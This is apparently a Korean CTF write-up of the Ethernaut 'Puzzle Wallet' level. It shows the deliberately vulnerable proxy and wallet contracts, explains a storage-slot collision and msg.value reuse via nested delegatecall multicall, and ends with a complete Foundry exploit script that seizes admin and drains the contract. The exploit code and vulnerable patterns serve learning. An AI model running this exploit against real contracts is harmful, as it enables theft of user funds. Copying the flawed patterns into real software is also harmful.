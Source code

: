 # 지문


요즘 DeFi 작업을 위해 가스비를 내는 건 사실상 불가능하다.

몇몇 친구들이 여러 트랜잭션을 한 번에 묶어서(batch) 실행하면 비용을 조금 줄일 수 있다는 것을 발견했고, 그래서 이를 수행하기 위한 스마트 컨트랙트를 개발했다.

이들은 혹시 코드에 버그가 있을 경우를 대비해 **업그레이드 가능**하도록 이 컨트랙트를 만들었으며, 또 외부 사람들이 사용하는 것을 막고 싶었다. 그래서 투표를 통해 시스템에 두 명에게 특별한 역할을 부여했다:

* **Admin**: 스마트 컨트랙트의 로직을 업데이트할 수 있는 권한 보유
* **Owner**: 컨트랙트를 사용할 수 있는 화이트리스트를 관리하는 권한 보유

컨트랙트는 배포되었고, 그룹 멤버들이 화이트리스트에 등록되었다. 모두가 악랄한 채굴자들에 맞선 성취를 기뻐했다.

하지만 그들은 몰랐다. 그들의 점심값이 위험에 처해 있었다는 것을…

---

이 레벨에서는 이 지갑을 탈취해서 **프록시의 admin이 되는 것**이 목표다.

도움이 될 만한 것들:

* `delegatecall`이 어떻게 동작하는지, 그리고 이를 수행할 때 `msg.sender`와 `msg.value`가 어떻게 동작하는지 이해하기
* 프록시 패턴과 이들이 스토리지 변수를 다루는 방식을 이해하기



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

# 풀이 

일단 첫번째로 PuzzleProxy의 slot 1(`pendingAdmin`), 그리고 PuzzleWallet의 slot 1(`owner`)이 충돌함.

그래서 `proposeNewAdmin` 함수 호출을 통해서 `pendingAdmin`을 설정한다는게 `owner`를 설정하게끔되고 그뒤에는 `owner`만 호출할 수 있는 `addToWhitelist` 함수를 호출할 수 있어서 그것으로 내 contract를 whitelist에 추가한다음에 그뒤로 계속 플레이하면됨.

이제 보면 PuzzleProxy의 slot 2(`admin`), 그리고 PuzzleWallet의 slot 2(`maxBalance`)가 충돌함.

일단 `maxBalance`를 설정할 수 있는 조건을 보면 contract 내의 native token balance가 0인 상태에서 `setMaxBalance`를 호출하면됨




문제 해결에 필요한 이슈의 실제 케이스는 다음 링크에 소개되어있음. (https://blog.trailofbits.com/2021/12/16/detecting-miso-and-opyns-msg-value-reuse-vulnerability-with-slither/)


batch call이 delegationcall을 이용해서 동일 contract 내에 여러개의 함수를 한 call안에 실행시키게끔 구현해놓은게 많음
여기서 중요한건 delegatecall batch call에서 `public payable` 또는 `external payable`이 적용되버리면 100원을 한번 입금했는데 10번 입금된 효과를 노릴 수도 있음.

그러니까 delegatecall로 payable 함수를 여러번 호출한다고 잔고 내의 native token이 여러번 징수되는게아니라 한번만 징수됨

위에 언급한 요소들을 감안해서 문제를 해결하면됨.


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function proposeNewAdmin(address _newAdmin) external;
    function approveNewAdmin(address _expectedAdmin) external;
    function upgradeTo(address _newImplementation) external;
    function init(uint256 _maxBalance) external;
    function setMaxBalance(uint256 _maxBalance) external;
    function addToWhitelist(address addr) external;
    function deposit() external;
    function execute(address to, uint256 value, bytes calldata data) external;
    function multicall(bytes[] calldata data) external payable;
    function admin() external view returns (address);
}

contract Helper {
    bytes[] callInstance;
    bytes[] callInstance2;
    ITarget target_;

    function trigger(address target) public payable{
        target_ = ITarget(target);
        target_.proposeNewAdmin(address(this));
        target_.addToWhitelist(address(this));

        callInstance.push(abi.encodeWithSignature("deposit()"));
        callInstance2.push(abi.encodeWithSignature("deposit()"));
        callInstance.push(abi.encodeWithSignature("multicall(bytes[])", callInstance2));
        target_.multicall{value:1000000000000000}(callInstance);

        target_.execute(address(this), 2000000000000000, "");
        target_.setMaxBalance(uint256(uint160(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC))); // 내 지갑 주소
    }
    receive() external payable {

    }

}
contract SolveScript is Script {
    address public target = 0xb6410CE04122bDAe70D8F2f509e9814B51766618;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        Helper helper = new Helper();
        console.log("admin : %s", ITarget(target).admin());
        helper.trigger{value:1000000000000000}(target);
        console.log("admin : %s", ITarget(target).admin());
        vm.stopBroadcast();
    }
}

```
